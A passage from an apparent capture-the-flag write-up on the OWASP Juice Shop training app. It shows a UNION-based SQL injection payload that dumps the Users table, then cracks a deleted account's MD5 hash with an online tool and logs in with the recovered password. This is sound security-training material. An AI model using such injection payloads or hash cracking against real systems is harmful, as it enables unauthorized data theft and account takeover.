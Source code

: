 ```sql
    `updatedAt`    DATETIME NOT NULL,
    `deletedAt`    DATETIME
);
```

### Dumping the users table

Using a similar payload, because we already knew the table schema, we were able to dump the users table:

```
qwert')) UNION SELECT username, email, password, role, deletedAt, '1', '2', '3', '4' FROM Users--
```

This allowed us to solve the challenge "User Credentials".
Again, this is CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection').

More than retrieving the users' credentials, we noticed that some accounts had been deleted.
However, it did not seem that they had really been deleted, as the data was still in the database, just with
the `deletedAt` field set.

### Logging in with a deleted account

We focused on a single deleted account:

```json
{
  "username": "",
  "email": "chris.pike@juice-sh.op",
  "password": "10a783b9ed19ea1c67c3a27699f0095b",
  "role": "customer",
  "deletedAt": "2023-05-07 19:45:32.264 +00:00"
}
```

And tried to log in.
For that, we needed to somehow crack the password hash.
We used an online tool to do that: https://hashes.com/en/decrypt/hash
The result was:

```
10a783b9ed19ea1c67c3a27699f0095b:uss enterprise
```

All that was left was to log in with the credentials `

```json
{
  "email": "chris.pike@juice-sh.op",
  "password": "uss enterprise"
}
```

This allowed us to solve the challenge "GDPR Data Erasure".
